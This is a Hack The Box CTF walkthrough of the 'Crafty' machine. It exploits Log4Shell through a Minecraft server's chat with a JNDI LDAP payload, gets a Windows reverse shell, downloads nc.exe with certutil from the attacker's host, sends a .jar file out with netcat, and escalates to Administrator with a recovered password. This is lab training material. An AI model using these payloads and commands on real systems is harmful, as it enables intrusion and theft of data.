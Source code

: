 ```yaml
---
date: 2025-05-02
categories: [CTF, HTB]
title: "HTB - Crafty"
tags: ['ldap', 'linux', 'nmap', 'powershell', 'privilege escalation', 'python', 'rce', 'reverse shell', 'windows', 'minecraft', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Crafty - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Crafty

- NMAP

```bash
nmap 10.129.18.108 -Pn -p- -vv

```

![image1](../resources/2348de89026443d1a2151719e9194f0b.png)


![image2](../resources/22cbf939d17c489da10248ef960af600.png)

- Add crafty.htb to /etc/hosts

![image3](../resources/cd35b355587447c3940ccdaa292e1eb1.png)

- Subdomain enumeration:

```bash
wfuzz -u crafty.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.crafty.htb" --hl 1

```
- Download a Minecraft player - Tslauncher
- Run the .jar file and enter any username and choose the version
- Then install and enter game


![image4](../resources/a64c40c42b874113b433701dcfa080a4.png)

- Add server


![image5](../resources/eabc3d91c33e4c92a160fb8f20b90698.png)

- Join server

- Here is a POC log4j-shell for this version
[https://github.com/kozmer/log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc)

[CVE-2021-44228 - Log4j - MINECRAFT VULNERABLE! (and SO MUCH MORE)](https://www.youtube.com/watch?v=7qoPDq41xhQ&t=1532s)

<https://github.com/pentesterland/Log4Shell>

- Clone the directory and cd into it

```bash
git clone https://github.com/kozmer/log4j-shell-poc

```
- Download jdk1.8 - and rename the folder to jdk1.8.0_20:

```bash
wget https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz

```

![image6](../resources/b46b34241e22412da02e3ffe1aed7646.png)

- Set up listener:

![image7](../resources/71521ef2a41e4916a070dbdb57f596c8.png)

- Run python script:

![image8](../resources/68b2cf81195444ceadc354bbb64a605a.png)

- Copy the string to send:

```bash
${jndi:ldap://10.10.14.38:1389/a}

```
- In the TSlauncher app - Press T to open the chat box
Paste in the code


![image9](../resources/c3eea277e0c24a118009299e65d233f5.png)

- We can see the GET requests from the webserver

![image10](../resources/46893a8a77214232847249d37e277ad2.png)

- But no shell

- Looking at the code:


![image11](../resources/74c4303464944f7a9a3a9cb1040a4bb9.png)

This is for a Linux server

- We need to change the payload for a Windows reverse shell:

![image12](../resources/2269a1a1c7b94a42875e35d9dec3f28d.png)

- Replace /bin/sh with cmd.exe - The IP and Port forwarding happens in the Java code itself

- Repeat the steps:
  - Set up listener
  - Run the python poc.py
  - Copy the command
  - Paste into minecraft chat

- Shell

![image13](../resources/75875bad84a7458f91e675134f30b51e.png)


![image14](../resources/a73dc94b611d4682aafc0ea6eb252377.png)

```bash
dir /Q /A

```

![image15](../resources/fa08f790e63c4dd9bf794153bb670c68.png)

- Found a .jar file

![image16](../resources/623a1da6f4314c86bb4ffb9824e179e4.png)

- We can't read it here so we need to transfer it to Kali

- Set up Python server

- Copy nc.exe over to the target:

`certutil.exe -urlcache -f http://10.10.14.38:8082/nc.exe c:\Users\svc_minecraft\Documents\nc.exe`


- Using nc we can send and receive:
  - On Kali:

```bash
nc -lnvp 4444 > playercounter-1.0-SNAPSHOT.jar

```
- On Windows:

```bash
c:\Users\svc_minecraft\Documents\nc.exe 10.10.14.38 4444 < playercounter-1.0-SNAPSHOT.jar

```
- **Ctrl+C on Kali** to stop the connection

![image17](../resources/2afd90148abb462db1414bc56bc70efc.png)


![image18](../resources/61b45372a37a40699d92303848612071.png)


![image19](../resources/650ad55a7f7f4c0dba8c1698e83cecdc.png)

- Reading the Java archive file:

```bash
jar tf <file.jar>:
```
![image20](../resources/473050f698774d32bdc4ed132f4646c6.png)

- Extract with:

```bash
jar xf <file.jar>
```

- That didn't extract anything useful and not all the files were there, as seen above

- Open the .jar file with a Java Decompiler JD-GUI:

![image21](../resources/faed98b62a334135b1b0456dfef230f1.png)
- We find a potential password

- Open Powershell and enter the following to open a new Powershell session as Admin:

```powershell
$User = "Administrator"
$Password = ConvertTo-SecureString "<Password>" -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential($User, $Password)
Start-Process cmd.exe -Credential $Credential
```

![image22](../resources/37e2e2bd470240299708cb4cab49acb7.png)


![image23](../resources/d022535dad4c40eebf79a4de54bb36cb.png)